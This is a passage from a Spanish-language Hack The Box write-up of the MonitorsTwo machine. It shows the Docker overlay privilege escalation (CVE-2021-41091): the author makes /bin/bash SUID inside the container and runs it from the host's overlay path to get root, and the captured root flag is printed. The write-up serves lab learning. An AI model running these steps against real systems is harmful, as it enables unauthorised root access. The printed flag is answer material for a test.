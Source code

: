 ```
│                                     shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
marcus@monitorstwo:~$ 
```

En el resultado anterior se observan dos rutas asi que vamos a crear un archivo de pruebas desde el contenedor

```
# CONTENEDOR: creando archivo en el directorio raiz como usuario root (/)
touch /testing

# MARCUS: mostrando el contenido del directorio docker
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
bin   dev            etc   lib    media  opt   root  sbin  sys      tmp  var
boot  entrypoint.sh  home  lib64  mnt    proc  run   srv   testing  usr

# CONTENEDOR: modificando el binario bash para que sea SUID
chmod u+s /bin/bash

# MARCUS: escalando privilegios usando el binario SUID
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/
.bash_history  .cache/        .local/        root.txt       
.bashrc        cacti/         .profile       .ssh/          
bash-5.1# cat /root/root.txt
1ec867772e1fd89d38388f00a75ee04c
bash-5.1# 
```

## Referencias

* [Repositorio de Cacti](https://github.com/Cacti/cacti)
* [Mind2hex github repo](https://github.com/mind2hex/HackTheBox/tree/master/Machines/Linux/MonitorsTwo)
* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [CVE-2021-41091](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41091)
* [CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169)
